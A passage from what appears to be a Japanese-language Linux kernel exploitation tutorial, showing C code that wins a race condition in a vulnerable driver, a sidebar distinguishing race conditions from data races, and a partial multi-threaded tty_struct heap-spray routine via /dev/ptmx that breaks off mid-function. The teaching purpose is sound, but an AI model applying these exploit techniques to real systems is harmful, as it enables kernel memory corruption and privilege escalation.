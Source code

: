 ```c
}

int main() {
  pthread_t th1, th2;

  pthread_create(&th1, NULL, race, NULL);
  pthread_create(&th2, NULL, race, NULL);
  pthread_join(th1, NULL);
  pthread_join(th2, NULL);

  char buf[0x400];
  int fd1 = 3, fd2 = 4;
  write(fd1, "Hello", 5);
  read(fd2, buf, 5);
  printf("%s\n", buf);

  return 0;
}
```
これでほぼ100%の確率でRaceに成功することが分かります。Race成功までにかかる時間もミリ秒単位で、primitiveとして十分に使えるものになりました。

<div class="column" title="コラム：競合状態とデータ競合">
  「競合状態(race condition)」と「データ競合(data race)」は似ている言葉ですが、2つの意味は違いますし、お互いを補完するような並列な言葉でもありません。<br>
  データ競合とは、メモリ中のある場所のデータを2つのスレッドが同時に（非同期に）アクセスする（少なくとも片方は書き込み）状態を指します。そのため、データ競合は未定義動作を引き起こします。データ競合は適切な排他制御やアトミック演算により解決できます。<br>
  一方で競合状態は、マルチスレッドの実行順序によって異なる結果が生まれる状態を指します。競合状態はロジックバグなどと同じで「プログラマがそう書いたからそう動いている」だけであり、予期しない動作(unexpected behavior)は起きますが未定義動作(unsound behavior)が起きることとは関係ありません。マルチスレッドによりプログラマの意図に反する結果が生まれれば、そのときは競合状態のバグがあると言えます。<br>
  今回のドライバには実装ミスによる競合状態があり、バッファのポインタにおけるデータ競合が発生します。
</div>

## CPUとHeap Spray
今回のようにマルチスレッドで競合のexploitを実装することは多々ありますが、この際に注意が必要なことがあります。
複数スレッドで競合状態を引き起こしているということは、攻撃時に複数のCPUコアが使われています。すると、当然どちらかのCPUコアから`module_open`が呼ばれて`kzalloc`でメモリ領域が確保されます。
ここで、以前Heap Overflowの章で説明した[SLUBアロケータ](heap_overflow#slub%E3%82%A2%E3%83%AD%E3%82%B1%E3%83%BC%E3%82%BF)の特徴を思い出してみましょう。SLUBアロケータではオブジェクト確保に使うslabをCPUごとのメモリ領域に管理しています。
つまり、今`main`関数が動いているスレッドと異なるCPUコアから確保された`g_buf`が`kfree`されると、当然確保時のCPUコアに対応するslabにリンクされます。すると、その後で`main`スレッドからHeap Sprayをしても、`kfree`された`g_buf`と被ることはありません。
したがって、今回のような状況では**複数スレッドでHeap Sprayを走らせる**ように注意しましょう。

また、`/dev/ptmx`を開くことで新たにファイルディスクリプタが作られますが、1つのプロセスが作れるファイルディスクリプタの数には限りがるので、大量のsprayが要るときは、sprayがヒットした時点で関係の無いファイルディスクリプタを閉じるといった工夫も必要です。
```c
void* spray_thread(void *args) {
  long x;
  long spray[800];

  for (int i = 0; i < 800; i++) {
    usleep(10);
    // tty_structのspray
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray[i] == -1) {
      for (int j = 0; j < i; j++)
        close(spray[j]);
      return (void*)-1;
    }

    if (read(fd2, &x, sizeof(long)) == sizeof(long) && x) {
      // ヒット
      for (int j = 0; j < i; j++)
        close(spray[j]);
      return (void*)spray[i];
```

[^1]: CPUによっては最適化のために命令の実行順序が変わるといったさらに粒度の低い話もありますが、今回は関係ないので説明しません。